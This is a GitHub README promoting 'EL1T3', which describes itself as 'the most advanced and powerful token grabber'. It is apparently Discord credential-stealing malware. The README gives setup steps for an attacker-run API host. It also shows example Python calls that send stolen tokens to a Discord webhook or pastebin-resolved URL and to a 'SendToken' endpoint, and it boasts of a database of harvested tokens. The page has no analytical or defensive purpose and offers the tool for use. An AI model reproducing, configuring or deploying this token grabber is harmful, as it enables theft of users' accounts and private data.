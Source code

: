 <h1 align="center">🦄<br>THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/4cajZdYpgS">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">HOW TO INSTALL</h1>

- **Run** ``./Setup.py`` **file to install modules**
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823361030120931378/unknown.png">

#

<h1 align="center">HOW TO SETUP</h1>

## Needed:
* Vps / Rdp / Host (api hosting)

```
+ Open port on host machine
+ Config port in EL1T3_API.py file
```

## 👀 Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/81619050/M-BLMxSy5e23way", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')
```

<h1 align="center">DATABASE SCREENSHOT</h1>
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823356873637494794/unknown.png">

#

<h1 align="center">"тнe мoѕт αdvαɴced αɴd powerғυl тoĸeɴ ɢrαввer"<br>ιтѕ_Ѵιcнч#1337<br><br>Builder Soon</h1>
